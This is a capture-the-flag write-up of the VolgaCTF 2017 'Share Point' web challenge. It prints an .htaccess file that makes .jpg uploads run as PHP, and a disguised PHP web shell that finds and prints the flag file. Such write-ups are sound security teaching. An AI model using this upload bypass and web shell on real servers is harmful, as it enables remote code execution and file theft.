 # Share Point
### Web 200pts

> **Share Point**    
>
> Look! I wrote a good service for sharing your files with your friends, enjoy)    
> [share-point.quals.2017.volgactf.ru](http://share-point.quals.2017.volgactf.ru/)

The link leads you to a website where have to login to continue. I logged in
with a custom username and password. Now you can upload and share you images.
![](images/upload.png)

There was a file upload vulnerability. So using that vulnerability, you can upload
any image and then change it to a php file. For that I first uploaded my
[.htaccess](files/.htaccess)
file.
> **.htaccess**    
>
> Options +Indexes    
> IndexOptions FancyIndexing FoldersFirst NameWidth=\* DescriptionWidth=\*    
> AddType application/x-httpd-php .jpg

Now I uploaded a [PHP shell](files/file.php.jpg) to print output the flag.
> **file.php.jpg**    
> <?php    
> system("cat < $(find / | grep 'flag.txt')");    
> ?>    

Then I went to Files and I could see both of my files.
![files](images/files.png)

I opened file.php.jpg to read the flag. The flag was `VolgaCTF{AnoTHer_apProOAch_to_file_UplOAd_PhP}`

![flag](images/flag.png)
